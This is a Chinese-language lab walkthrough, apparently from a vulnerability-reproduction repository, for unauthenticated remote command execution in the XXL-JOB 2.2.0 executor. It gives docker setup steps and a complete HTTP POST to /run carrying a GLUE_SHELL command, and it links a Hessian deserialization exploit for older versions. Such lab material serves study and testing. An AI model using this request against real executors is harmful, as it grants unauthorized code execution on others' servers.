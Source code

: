 # XXL-JOB executor 未授权访问漏洞

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 环境搭建

执行如下命令启动2.2.0版本的XXL-JOB：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到管理端（admin），访问`http://your-ip:9999`可以查看到客户端（executor）。

## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![](1.png)

`touch /tmp/success`已成功执行：

![](2.png)

另外，低于2.2.0版本的XXL-JOB没有RESTful API，我们可以通过[Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)来执行命令。
